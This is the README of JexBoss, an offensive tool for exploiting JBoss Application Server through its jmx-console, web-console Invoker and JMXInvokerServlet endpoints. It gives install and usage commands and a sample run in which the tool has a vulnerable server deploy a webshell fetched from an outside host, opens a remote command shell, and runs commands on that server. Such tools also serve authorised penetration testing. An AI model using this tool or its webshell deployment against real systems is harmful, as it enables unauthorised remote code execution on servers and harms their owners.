 JexBoss - Jboss verify and EXploitation Tool
=======

JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server.

Requirements
----
* Python >= 2.7.x

Installation
----
To install the latest version of JexBoss, please use the following commands:

	git clone https://github.com/joaomatosf/jexboss.git
	cd jexboss
	python jexboss.py

Features
----
The tool and exploits were developed and tested for versions 3, 4, 5 and 6 of the JBoss Application Server.

The exploitation vectors are:

* /jmx-console
	- tested and working in JBoss versions 4, 5 and 6

* /web-console/Invoker
	- tested and working in JBoss versions 4

* /invoker/JMXInvokerServlet
	- tested and working in JBoss versions 4 and 5

Usage examples
----
* Check the file "demo.png"

```
$ git clone https://github.com/joaomatosf/jexboss.git

$ cd jexboss

$ python jexboss.py https://site.com
```

* Example
```
$ python jexboss.py https://site-teste.com

 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#


 ** Checking Host: https://site-teste.com **

 * Checking web-console: 	       [ OK ]
 * Checking jmx-console: 	       [ VULNERABLE ]
 * Checking JMXInvokerServlet: 	       [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "jmx-console" ?
   This operation will provide a simple command shell to execute commands on the server..
   Continue only if you have permission!
   yes/NO ? yes

 * Sending exploit code to https://site-teste.com. Wait...


 * Info: This exploit will force the server to deploy the webshell 
   available on: http://www.joaomatosf.com/rnp/jbossass.war
 * Successfully deployed code! Starting command shell, wait...

 * - - - - - - - - - - - - - - - - - - - - LOL - - - - - - - - - - - - - - - - - - - - * 

 * https://site-teste.com: 

 Linux fwgw 2.6.32-431.29.2.el6.x86_64 #1 SMP Tue Sep 9 21:36:05 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

 CentOS release 6.5 (Final)

 uid=509(jboss) gid=509(jboss) grupos=509(jboss) context=system_u:system_r:initrc_t:s0

[Type commands or "exit" to finish]
Shell> pwd
/usr/jboss-6.1.0.Final/bin

[Type commands or "exit" to finish]
Shell> hostname
fwgw

[Type commands or "exit" to finish]
Shell> ls -all /tmp 
total 35436
drwxrwxrwt.  4 root root     4096 Nov 24 16:36 .
dr-xr-xr-x. 22 root root     4096 Nov 23 03:26 ..
-rw-r--r--.  1 root root 34630995 Out 15 18:07 snortrules-snapshot-2962.tar.gz
-rw-r--r--.  1 root root       32 Out 16 14:51 snortrules-snapshot-2962.tar.gz.md5
-rw-------.  1 root root        0 Set 20 16:45 yum.log
-rw-------.  1 root root     2743 Set 20 17:18 yum_save_tx-2014-09-20-17-18nQiKVo.yumtx
-rw-------.  1 root root     1014 Out  6 00:33 yum_save_tx-2014-10-06-00-33vig5iT.yumtx
-rw-------.  1 root root      543 Out  6 02:14 yum_save_tx-2014-10-06-02-143CcA5k.yumtx
-rw-------.  1 root root    18568 Out 14 03:04 yum_save_tx-2014-10-14-03-04Q9ywQt.yumtx
-rw-------.  1 root root      315 Out 15 16:00 yum_save_tx-2014-10-15-16-004hKzCF.yumtx

[Type commands or "exit" to finish]
Shell>
```
